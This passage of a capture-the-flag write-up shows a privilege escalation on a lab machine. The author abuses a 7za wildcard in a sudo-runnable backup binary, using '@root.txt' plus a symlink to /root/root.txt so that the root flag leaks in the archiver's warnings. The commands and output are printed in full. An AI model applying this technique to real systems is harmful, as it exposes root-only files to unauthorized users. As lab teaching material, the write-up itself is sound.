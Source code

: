 There are three functions, one for each option.

The reset admin password seemed interesting but it's empty.

I checked the other functions and the `BackupWebContent`(option 1) looked interesting.

![backupwebcontent](19.png)

The function uses `7za` with a wildcard.

```bash
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

I searched for `7z wildcard exploit` and found this :<https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z>

![hacktricks](20.png)

Here the author suggests creating a file in the directory where the command is being executed, and make symbolic link with the file we want to read.

```terminal
xander@usage:/var/www/html$ touch @root.txt
xander@usage:/var/www/html$ ln -s /root/root.txt @root.txt
ln: failed to create symbolic link '@root.txt': File exists
xander@usage:/var/www/html$ ln -s /root/root.txt root.txt
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)

Scanning the drive:

WARNING: No more files
15c54877a8f959cfc0880e2d380e21f4

2984 folders, 17960 files, 114776219 bytes (110 MiB)

Creating archive: /var/backups/project.zip

Items to compress: 20944


Files read from disk: 17960
Archive size: 54869447 bytes (53 MiB)

Scan WARNINGS for files and folders:

15c54877a8f959cfc0880e2d380e21f4 : No more files
----------------
Scan WARNINGS: 1
```

